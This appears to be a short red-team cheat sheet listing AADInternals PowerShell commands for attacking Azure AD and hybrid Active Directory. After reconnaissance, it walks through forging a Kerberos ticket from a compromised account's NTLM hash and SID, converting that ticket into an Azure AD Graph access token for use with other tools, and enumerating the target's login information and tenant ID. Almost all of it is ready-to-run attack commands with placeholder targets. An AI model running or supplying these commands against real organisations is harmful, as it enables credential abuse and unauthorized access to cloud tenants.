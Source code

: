 # AADInternals

## Github repo: https://github.com/Gerenios/AADInternals

## Official Documentation: https://aadinternals.com/aadkillchain/

### Commands:

#### 1) Reconnaissance. Can be both from inside or outside the network

    Invoke-AADIntReconAsOutsider -Domain domain.local | Format-Table 

#### 2) Grab a Kerberos Ticket for the account mentioned on the INTERNAL_AD_SID, then use the NTLM hash of the compromised account

    $kerberos=NewAADIntKerberosTicket -SidString INTERNAL_AD_SID -Hash NTLM_HASH 

#### 3) Initiate an access token for Azure AD Graph from the Kerberos Ticket. This is necessary so we can pass the token to use with ROADTools or any other tool we may need to use

    Get-AADIntAccessTokenForAADGraph -KerberosTicket $kerberos -Domain DOMAIN.LOCAL 

#### 4) Get login information about the target domain

    Get-AADIntLoginInformation -Domain DOMAIN.COM 

#### 5) Get tenant ID of the domain

    Get-AADIntTenantID -Domain DOMAIN.COM 




